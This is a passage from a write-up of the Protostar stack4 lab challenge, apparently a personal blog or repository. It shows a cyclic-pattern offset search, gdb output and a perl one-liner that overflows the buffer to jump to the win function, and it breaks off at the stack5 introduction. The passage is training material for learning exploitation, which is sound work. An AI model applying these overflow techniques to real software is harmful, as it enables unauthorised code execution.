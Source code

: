 ```bash
┌──(yariss㉿Kali-VM)-[~]
└─$ cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

Now let's run gdb and give this as input.

```bash
Starting program: /opt/protostar/bin/stack4 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
```

Yes, when you get segmentation fault, it means that the program tried to jump to a memory location that doesn't exist / you aren't allowed to jump to.

Notice that the program tried to jump to `0x61616174`, which is `aaat`

Since we used `cyclic` to generate the pattern, we can determine how many bytes until the first occurence of that pattern.

```bash
└─$ cyclic -l 0x61616174
76
```

We got the offset ! Now all we need to do is determine the address of `win` and use the same payload as before.

```bash
(gdb) p win
$1 = {void (void)} 0x80483f4 <win>
```

It's time to smash the stack !

```bash
user@protostar:/opt/protostar/bin$ perl -e 'print "A" x 76 . "\xf4\x83\x04\x08"' | ./stack4
code flow successfully changed
Segmentation fault
```

We solved it :D

## Stack 5

### Challenge description

Stack5 is a standard buffer overflow, this time introducing shellcode.

This level is at `/opt/protostar/bin/stack5`

Hints

